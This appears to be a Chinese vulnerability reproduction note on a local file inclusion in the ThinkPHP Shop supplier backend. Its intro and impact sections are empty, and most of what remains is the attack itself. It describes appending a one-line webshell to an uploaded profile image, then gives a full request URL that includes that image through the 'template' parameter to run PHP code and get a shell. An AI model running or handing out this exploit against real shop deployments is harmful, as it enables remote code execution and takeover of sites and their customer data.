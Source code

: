 # Thinkphp Shop 供应商后台本地文件包含导致权限提升

> 原文：[https://www.zhihuifly.com/t/topic/3182](https://www.zhihuifly.com/t/topic/3182)

# Thinkphp Shop 供应商后台本地文件包含导致权限提升

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、用户个人资料修改处上传图片

http://www.0-sec.org/Home/User/info.html

### 2、上传一张正常图片，并在图片末尾加上一句话

### 3、返回shell

http://www.0-sec.org/supplier/order/delivery_print?template=public/upload/user/4575/head_pic/5989ee42cc5992e64a60c52b0cbb7602.png&w=phpinfo();